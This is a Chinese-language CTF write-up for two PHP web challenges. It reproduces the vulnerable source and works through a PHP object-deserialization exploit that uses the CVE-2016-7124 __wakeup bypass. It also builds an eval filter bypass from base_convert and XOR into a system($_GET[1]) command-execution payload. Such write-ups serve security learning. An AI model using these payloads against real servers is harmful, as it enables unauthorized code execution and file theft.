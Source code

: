 ```yaml
---
title: 第十二届全国大学生信息安全竞赛西北赛区 部分题目 Writeup
tags: 
    - Writeup
    - CTF
date: 2019/4/22
---
```


## JustSoso

{% spoiler 题目源码 %}

```php
// index.php
<?php
error_reporting(0);
$file = $_GET["file"];
$payload = $_GET["payload"];
if(!isset($file)){
    echo 'Missing parameter'.'<br>';
}
if(preg_match("/flag/",$file)){
    die('hack attacked!!!');
}
@include($file);
if(isset($payload)){
    $url = parse_url($_SERVER['REQUEST_URI']);
    parse_str($url['query'],$query);
    foreach($query as $value){
        if (preg_match("/flag/",$value)) {
            die('stop hacking!');
            exit();
        }
    }
    $payload = unserialize($payload);
}else{
   echo "Missing parameters";
}
?>
<!--Please test index.php?file=xxx.php -->
<!--Please get the source of hint.php-->
</html>
```

```php
// hint.php
<?php
class Handle{
    private $handle;
    public function __wakeup(){
        foreach(get_object_vars($this) as $k => $v) {
            $this->$k = null;
        }
        echo "Waking up\n";
    }
    public function __construct($handle) {
        $this->handle = $handle;
    }
    public function __destruct(){
        $this->handle->getFlag();
    }
}

class Flag{
    public $file;
    public $token;
    public $token_flag;

    function __construct($file){
        $this->file = $file;
        $this->token_flag = $this->token = md5(rand(1,10000));
    }

    public function getFlag(){
        $this->token_flag = md5(rand(1,10000));
        echo 'asdf';
        if($this->token === $this->token_flag)
        {
            if(isset($this->file)){
                echo @highlight_file($this->file,true);
            }
        }
    }
}
?>
```

{% endspoiler %}

GET参数中含有file, LFI获得index.php源码, 根据其内容继续获得hint.php源码  
发现含有unserialize函数, 联系hint.php内容, 考察点为反序列化

有三处需要绕过:

1. parse_url 三斜杠绕过, 常规
2. `__wakeup` 绕过，[CVE-2016-7124](https://bugs.php.net/bug.php?id=72663)
3. 每次调用getFlag token_flag都会随机变化，可以将token赋值为token_flag 的引用绕过

{% asset_img EUhNFz4.png Source %}

故exploit如下:

```php
<?php
class Flag{}
class Handle{
    private $handle;
    function __construct($xx){
        $this->handle = $xx;
    }
}

$p = new Flag("flag.php");
$p->token = &$p->token_flag;
$p->file = "flag.php";
$pay = new Handle($p);
echo urlencode(serialize($pay));
```

## love the math

{% spoiler 题目源码 %}

```php
// calc.php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    eval('echo '.$content.';');
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

{% endspoiler %}

观察发现如下限制:

1. payload长度不可超过80
1. 可以执行任何数学函数
1. 有部分字符不可用( `$blacklist` )

由于80这个长度太短, 所以后期应当是通过取其它位置的可控输入点进行执行和输出
应当取能够返回字符串的数学函数, 加以拼接得到期望值
题目过滤了所有除数学函数名意外的英文字符, 所以应当利用纯数字构造payload

观察数学函数的输入输出, 发现涉及到不同进制的数学函数能够返回字符串。  
其中利用base_convert能获取更大的字符集, 但也更长  
原型：`base_convert(number,frombase,tobase)`
可以将字符串转为10进制或其它能够组成纯数字的进制来控制输入

验证: `url:/calc.php?c=base_convert(55490343972,10,36)()`
可以执行phpinfo  

比赛时受师傅的引导，将echo file_get_contents缩短为readfile，成功获得了flag

{% asset_img SlwlDOA.png meme %}

其实应该是可以RCE的

> php > `echo base_convert('system', 36, 10);`
> 1751504350

考虑到进制转换只能转出小写字母, 此处利用php能将字符串互相异或的行为, 能够将多个16进制串进行异或得到大写字母。  
于是目的是：将两个`[a-z0-9]*`字符串异或得到`_GET`,利用`_GET{param}`获取到另一参数中引入的更长字串  
进行fuzz, fuzz代码:

```php
$table = "0123456789abcdefghijklmnopqrstuvwxyz";
for($i = 0; $i < 36; $i++){
    for($j = $i; $j < 36; $j++){
        echo $table[$i]^$table[$j];
        echo " ";
        echo $table[$i]." ".$table[$j];
        echo "\n";
    }
}
// php test.php| strings | grep "_"
// php test.php| strings | grep "G"
// php test.php| strings | grep "E"
// php test.php| strings | grep "T"
```

得到`"1000"^"nwud" == "_GET"`
所以能够构造出一句话payload:
`base_convert(1751504350,28,10)(${decoct(512)^base_convert(862402,10,33)}{1})`  
即`system($_GET[1])`
